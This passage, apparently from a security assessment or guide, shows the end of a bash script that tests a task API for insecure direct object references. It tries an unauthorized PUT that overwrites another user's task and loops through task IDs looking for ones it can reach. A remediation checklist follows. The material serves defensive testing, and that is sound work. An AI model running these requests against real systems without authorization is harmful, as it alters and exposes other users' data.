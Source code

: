 ```bash
MODIFY_RESPONSE=$(curl -s -w "%{http_code}" -o /tmp/idor_modify.json \
                       -X PUT "$TARGET_URL/tasks/$TASK_ID" \
                       -H "Authorization: Bearer $USER2_TOKEN" \
                       -H "Content-Type: application/json" \
                       -d '{"title":"Hacked!","description":"Unauthorized modification"}')

if [ "$MODIFY_RESPONSE" = "200" ]; then
    echo "VULNERABILITY: User2 can modify User1's task"
else
    echo "SECURE: Modification properly denied (HTTP $MODIFY_RESPONSE)"
fi

# Test 4: Enumerate tasks
echo "Testing task enumeration..."
FOUND_TASKS=0
for i in {1..20}; do
    ENUM_RESPONSE=$(curl -s -w "%{http_code}" -o /dev/null \
                         "$TARGET_URL/tasks/$i" \
                         -H "Authorization: Bearer $USER2_TOKEN")
    
    if [ "$ENUM_RESPONSE" = "200" ]; then
        ((FOUND_TASKS++))
    fi
done

echo "Found $FOUND_TASKS accessible tasks through enumeration"

# Cleanup
rm -f /tmp/idor_test.json /tmp/idor_modify.json

echo "IDOR penetration test completed."
```

## Remediation Checklist

### Immediate Actions (Critical)
- [ ] Implement ownership verification in all object access endpoints
- [ ] Add authorization checks to all CRUD operations
- [ ] Replace sequential IDs with UUIDs where possible
- [ ] Implement proper error handling to prevent information disclosure
- [ ] Add logging for unauthorized access attempts

### Short-term Actions (High Priority)
- [ ] Implement role-based access control (RBAC)
- [ ] Add automated IDOR testing to CI/CD pipeline
- [ ] Create authorization middleware for consistent checks
- [ ] Implement rate limiting to prevent enumeration attacks
- [ ] Add security monitoring and alerting

### Long-term Actions (Medium Priority)
- [ ] Regular penetration testing focused on authorization
- [ ] Security training for development team
- [ ] Implement data classification and access policies
- [ ] Regular security audits and code reviews
- [ ] Establish incident response procedures
